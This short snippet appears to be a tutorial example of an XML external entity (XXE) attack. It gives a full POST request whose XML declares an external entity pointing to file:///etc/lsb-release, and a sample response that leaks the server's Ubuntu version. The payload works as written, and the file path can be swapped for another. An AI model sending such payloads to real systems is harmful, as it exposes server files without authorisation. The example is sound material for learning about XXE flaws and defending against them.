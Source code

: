 XXE Attack Example

Request
``````xml
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````
Responce
``````xml
HTTP/1.0 200 OK
 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
````
